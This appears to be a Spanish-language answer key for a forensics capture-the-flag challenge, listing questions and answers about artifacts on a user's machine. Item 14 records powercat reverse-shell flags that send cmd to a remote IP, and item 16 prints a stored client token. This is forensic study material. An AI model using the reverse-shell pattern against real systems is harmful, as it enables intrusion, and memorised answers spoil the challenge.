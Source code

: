1. Uso declaraciones de impresión para mis registros -> ¿Cuál es el nombre de la utilidad/biblioteca para la cual el usuario estaba buscando exploits?\\
**log4j**

2. Lemur travieso -> ¿Cuál es el número de identificación de la versión del sistema operativo en la máquina?\\
**21.10**

3. #whoami -> ¿Cuál es el nombre del host de la computadora?\\
**rshell-lenovo**

4. Un pajarito azul me dijo -> ¿Cuál es un anime que le gusta al usuario?\\
**Attack On Titan**

5. Entramos en la Matrix -> ¿Cuál es el UUID de la cuenta de Minecraft del atacante?\\
**8b0dec19-b463-477e-9548-eef20c861492**

6. El video de YouTube de hoy es patrocinado por... -> ¿Qué cliente VPN instaló y usó el usuario en la máquina?\\
**zerotier**

7. Sé nuestro invitado -> ¿Cuál fue la primera contraseña del usuario para el wifi de invitados?\\
**093483**

8. Si una imagen vale mil palabras, ¿cuántas vale un video? -> El usuario vio un video que se estrenó el 11 de diciembre de 2021. ¿Cuántas vistas tenía cuando lo vio el 9 de febrero?\\
**265342**

9. Tengo hambre de videos -> ¿Cuál es el nuevo nombre del canal del YouTuber cuyo libro de cocina se muestra en el dispositivo?\\
**Babish Culinary Universe**

10. Cazar al Wumpus -> ¿Cuál es el módulo con la versión más alta instalada para la aplicación de chat con la mascota Wumpus?\\
**discord_voice**

11. Están lloviendo ocelotes y lobos -> Según Windows, ¿cuál era la temperatura en Fahrenheit el 11 de febrero de 2022 a las 6:30 PM?\\
**45F**

12. Nunca voy a... rendirme con esta pregunta -> ¿Cuál es la fecha de subida del segundo video de YouTube en el canal del cual el usuario descargó un video?\\
**10/25/2009**

13. Abejas zumbonas -> ¿Cuál es el hash SHA-1 de la "última" versión de Minecraft según el sistema?\\
**3c6e119c0ff307accf31b596f9cd47ffa2ec6305**

14. El RCE está basado en base(64) ¿de qué? -> ¿Cuáles fueron las tres banderas y sus valores que se pasaron a powercat? La respuesta debe proporcionarse en el mismo formato que el comando ingresado. (Por ejemplo, si el comando fue "powercat -D Y -l a -n," la respuesta sería "-D Y -l a -n")\\
**-c 192.168.191.253 -p 4444 -e cmd**

15. Hola (Nuevo) Mundo -> ¿A cuántas dimensiones (incluyendo el supramundo) viajó el jugador en el "más antiguo de los mundos"?\\
**One**

16. Matrix_1999 es la clave! -> ¿Cuál es el mojangClientToken almacenado en el Keystore?\\
**2f76c8b04c004ddd888a05a6cad6**
